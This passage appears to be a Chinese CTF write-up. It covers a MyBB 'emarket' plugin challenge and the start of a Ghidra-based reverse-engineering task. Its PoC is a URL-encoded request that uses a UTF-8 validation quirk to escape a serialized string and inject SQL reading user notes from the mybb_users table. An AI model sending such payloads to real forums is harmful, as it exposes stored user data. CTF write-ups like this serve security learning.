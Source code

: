 ![](https://i.imgur.com/JCaivKa.png)

emarket.php是在插件目录下，所以找一个地方可以hook去插件的地方，执行这块儿代码

![](https://i.imgur.com/WDTv7lv.png)


这里可以可以hook进去执行emarket.php的list_proposals方法，然后反序列化。这里要执行到run_hooks的前提是要先发过邮件

![](https://i.imgur.com/qvTV8fw.png)

![](https://i.imgur.com/TJz2L4R.png)

这里如果pmid从数据库中找不到就会报错。

但是这里因为有my_serialize/unserialize方法，不能对object进行操作，所以这里的trick就是利用在
escape_string中的validate_utf8_string方法，可以把%c0%c2变成?，这样就逃逸出来了

Poc:

```js
/emarket-api.php?action=make_proposal&description=1&software=1.2&latest_version=4&additional_info[a]=%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2&additional_info[b]=%22%3b%73%3a%37%3a%22%73%6f%6c%64%5f%74%6f%22%3b%73%3a%35%35%3a%22%30%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%67%72%6f%75%70%5f%63%6f%6e%63%61%74%28%75%73%65%72%6e%6f%74%65%73%29%20%20%66%72%6f%6d%20%6d%79%62%62%5f%75%73%65%72%73
```

![](https://i.imgur.com/rKRQmsR.png)

![](https://i.imgur.com/Axy7q3y.png)

![](https://i.imgur.com/UY8eGmy.png)

打完poc后，直接点击查看就行了

![](https://i.imgur.com/F3CgiOJ.png)

![](https://i.imgur.com/oTe5fJt.png)

## Reverse

### atareee(low)

![](https://i.imgur.com/se63odf.png)

导入Ghidra分析
经过调试可得到，0x50C2地址为我们的输入数据，在xorenc函数中进行加密操作，逻辑如下

![](https://i.imgur.com/x8uVt6e.png)

接下来是验证函数，0x509A为输出到屏幕的部分，图中标注的0x5276和0x524e分别为错误、正确字符串的位置
